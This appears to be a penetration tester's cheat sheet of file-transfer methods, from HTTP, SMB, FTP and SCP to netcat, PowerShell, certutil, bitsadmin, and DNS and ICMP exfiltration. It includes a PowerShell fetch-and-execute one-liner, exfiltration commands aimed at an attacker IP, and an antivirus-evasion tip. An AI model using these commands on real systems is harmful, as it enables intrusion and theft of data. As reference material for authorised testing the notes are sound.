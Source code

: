 ```yaml
---
date: 
tags:
---
```


### 1. HTTP/HTTPS

```bash
# Python HTTP Server:
python3 -m http.server 80 # Python 3
python -m SimpleHTTPServer 80 # Python 2
```

```bash
# Download with wget/curl:
wget http://<IP>/file
curl -O http://<IP>/file
```

```bash
# PHP Server:
php -S 0.0.0.0:80
```

### 2. SMB (Windows)

```bash
# Impacket SMB Server:
impacket-smbserver share $(pwd) -smb2support -username user -password pass
```

```bash
# Connect from Windows:
net use \\\\<IP>\\share /user:user pass
copy \\\\<IP>\\share\\file .
```

### 3. FTP

```bash
# Python FTP Server:
pip3 install pyftpdlib
python3 -m pyftpdlib -p 21 -w
```

```bash
# Connect with ftp:
ftp <IP>
get file
```

### 4. SCP (SSH)

```bash
# Upload/Download:
scp file.txt user@<IP>:/path # Upload
scp user@<IP>:/path/file.txt . # Download
```

### 5. Netcat (Unencrypted)

```bash
# Receiver (Listener):
nc -lvnp 4444 > file
```

```bash
# Sender:
nc <IP> 4444 < file
```

### 6. PowerShell (Windows)

```bash
# Download File:
Invoke-WebRequest -Uri http://<IP>/file -OutFile file
(New-Object Net.WebClient).DownloadFile("http://<IP>/file", "file")

# Base64 Encode/Decode:
[Convert]::ToBase64String([IO.File]::ReadAllBytes("file")) > file.b64
[IO.File]::WriteAllBytes("file", [Convert]::FromBase64String((Get-Content file.b64)))

# Basic download string
	iex (New-Object Net.Webclient).DownloadString("http://<IP>/<File>")
```

### 7. TFTP (UDP)

```bash
# Start TFTP Server:
atftpd --daemon --port 69 /tftp
```

```bash
# Download File:
tftp -i <IP> GET file
```

### 8. WebDav (HTTP)

```bash
# Python WebDav Server:
wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

```bash
# Mount in Windows:
net use * http://<IP>/webdav
```

### 9. DNS Exfiltration (Slow)

```bash
# Using dnscat2:
dnscat2 --dns server=<IP>,[domain=example.com](<http://domain=example.com/>)
```

### 10. Magic Windows Tricks

```bash
# Certutil:
certutil -urlcache -split -f http://<IP>/file
```

```bash
# Bitsadmin:
bitsadmin /transfer job /download /priority normal http://<IP>/file C:\\file
```

### 11. RDP Clipboard

```bash
Copy-paste files via RDP (enable clipboard sharing).
```

### 12. ICMP (Ping) Exfil

```bash
# icmp-exfil (Tool):
icmp-exfil -s <IP> -f file
```

### Notes:

- Encryption: Prefer SCP/HTTPS/SMB3 over unencrypted methods (FTP, HTTP, TFTP).
- Firewalls: Check allowed ports (80, 443, 445, 21, 22 are common).
- AV Evasion: Obfuscate scripts (e.g., base64-encoded PowerShell).

Source: [https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65](https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65)